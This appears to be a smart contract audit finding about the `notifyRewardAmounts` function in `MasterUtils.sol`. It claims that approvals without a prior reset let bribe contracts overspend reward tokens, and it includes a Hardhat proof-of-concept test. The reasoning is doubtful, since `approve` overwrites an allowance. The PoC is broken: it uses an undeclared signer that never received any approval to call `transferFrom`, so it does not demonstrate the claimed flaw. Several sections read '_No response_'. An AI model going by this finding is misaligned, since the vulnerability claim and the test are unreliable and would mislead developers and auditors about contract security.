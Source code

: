 Polished Blush Starling

Medium

# Lack of approval reset in `notifyRewardAmounts` function will allow excessive spending of tokens in future interactions with the same contract in `MasterUtils.sol`

### Summary

The `notifyRewardAmounts` function within the `MasterUtils` contract grants allowances for reward tokens to specific bribe contracts without first resetting the allowance to zero. This approach can result in unintended transfers where the approvals are not properly updated, as lingering allowances will allow excessive spending of tokens in future interactions with the same contract.

### Root Cause

In the `notifyRewardAmounts` function, the code grants allowances by calling `IERC20(rewards[i]).approve(bribes[i], amounts[i]);` to allocate funds to specified bribe contracts. However, since the allowance isn’t reset to zero before re-approval, this will lead to unintended consequences if allowances persist beyond the intended transaction. Failure to reset the approval can allow the target contract to transfer more tokens than desired in future calls.
https://github.com/sherlock-audit/2024-10-axion/blob/main/solidly-utils/contracts/MasterUtils.sol#L128-L154


### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

The unchecked approval behavior in `notifyRewardAmounts` can allow an external actor, particularly the recipient of the approval (the `bribes` contract in this case), to transfer more tokens than intended if future interactions do not reset the allowance. This vulnerability could lead to unintended token losses if the allowance remains active beyond the immediate transaction.

### PoC

To demonstrate this vulnerability, we can create a Hardhat test that calls the `notifyRewardAmounts` function multiple times, mimicking an external contract that leverages the granted allowance repeatedly. This allows excess tokens to be spent due to the lingering approval.
```javascript
// Vulnerability PoC Test
const { ethers } = require("hardhat");
const { expect } = require("chai");

describe("Approval Vulnerability PoC", function () {
  let masterUtils, bribe, rewardToken, operator;
  let rewardAmount = ethers.utils.parseEther("100");

  before(async function () {
    [operator, maliciousContract] = await ethers.getSigners();

    // Deploy reward token and bribe contract
    const RewardToken = await ethers.getContractFactory("MockERC20");
    rewardToken = await RewardToken.deploy("RewardToken", "RWT", 18);
    await rewardToken.deployed();

    const Bribe = await ethers.getContractFactory("MockBribe");
    bribe = await Bribe.deploy();
    await bribe.deployed();

    // Deploy the MasterUtils contract
    const MasterUtils = await ethers.getContractFactory("MasterUtils");
    masterUtils = await MasterUtils.deploy();
    await masterUtils.initialize(operator.address, operator.address, operator.address, operator.address, 100);

    // Mint rewards and approve for MasterUtils
    await rewardToken.mint(masterUtils.address, rewardAmount.mul(10));
  });

  it("Should allow unintended token transfers", async function () {
    // Set initial bribe amount limit
    await masterUtils.setBribeAmountLimit(bribe.address, rewardAmount);

    // First notify reward amounts
    await masterUtils.connect(operator).notifyRewardAmounts(
      [bribe.address],
      [rewardToken.address],
      [rewardAmount]
    );

    // Malicious contract uses the lingering approval to transfer extra tokens
    await rewardToken.connect(maliciousContract).transferFrom(masterUtils.address, maliciousContract.address, rewardAmount.div(2));

    // Check that unintended tokens were transferred
    expect(await rewardToken.balanceOf(maliciousContract.address)).to.equal(rewardAmount.div(2));
  });
});
```

### Mitigation

_No response_